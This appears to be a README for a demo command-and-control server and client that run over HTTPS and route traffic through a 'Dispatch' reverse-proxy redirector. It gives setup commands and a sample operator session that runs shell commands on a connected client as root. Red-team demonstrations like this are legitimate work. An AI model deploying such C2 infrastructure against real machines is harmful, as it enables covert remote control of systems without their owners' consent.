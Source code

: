 # Dispatch Redirector Demo

## Overview
The following code provides a sample C2 over HTTPS to demonstrate Dispatch's Reverse Proxy functionality. 

- Accepts connections multiple from clients
- Routes traffic through front-end proxies (e.g., NGINX, CDN)
- Maintains secure communication over HTTPS
- Provides an interactive operator shell for issuing commands


## 🛠️ Dispatch Setup
### 1. General SSL Cert & Start the Server
```bash
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
python3 server.py --host <bind_host> --port <bind_port>
```

### 2. Setup Dispatch routes to redirect client traffic
<img height="400" alt="rProxy" src="https://github.com/user-attachments/assets/508adf2c-33f6-4088-a800-93d4a597c074" />


### 3. Start the client directing it at Dispatch redirector
```bash
 python3 client.py --server https://<dispatch_server>
```

### 4. Interact with connected clients
```bash
[!] New client registered: client-1 (192.168.1.100)
(server) > interact client-1
[*] Entering session with client-1. Type 'bg' to return.

(client-1) > whoami
[+] Response from client-1:
root
```
